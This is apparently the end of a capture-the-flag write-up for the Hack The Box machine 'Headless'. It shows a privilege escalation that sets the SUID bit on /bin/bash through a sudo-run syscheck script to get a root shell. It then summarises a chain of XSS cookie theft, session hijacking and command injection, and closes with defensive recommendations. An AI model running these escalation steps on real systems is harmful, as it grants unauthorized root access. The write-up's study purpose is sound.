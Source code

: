 Check current bash permissions:

```bash
ls -l /bin/bash
```

![[bash_permissions_root_nok.png]]

Create a malicious script that sets the SUID bit on `/bin/bash`:

```bash
chmod u+s /bin/bash
```

![[changing_permissions.png]]

Run `syscheck` again:

```bash
sudo /usr/bin/syscheck
ls -l /bin/bash
```

![[bash_permissions_root_ok.png]]

Now `/bin/bash` has the SUID bit set, allowing us to spawn a root shell:

![[GitHub Documentation/EASY/HTB_Headless_Writeup/screenshots/root_flag.png]]

✅ **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Web Enumeration** → Identified `/support` and `/dashboard`.  
2. **XSS** → Injected script to steal the admin cookie.  
3. **Session Hijacking** → Used stolen cookie to access `/dashboard`.  
4. **Reverse Shell Injection** → Exploited the `date` parameter to gain user access.  
5. **Privilege Escalation** → Abused `syscheck` script and replaced `initdb.sh` to escalate to root.

---
## Defensive Recommendations

- Sanitize user input to prevent **XSS vulnerabilities**.  
- Store session tokens securely (e.g., HttpOnly cookies).  
- Validate and sanitize parameters before execution to prevent **command injection**.  
- Restrict and properly configure scripts executed with `sudo`.  
- Regularly audit custom scripts for privilege escalation risks.
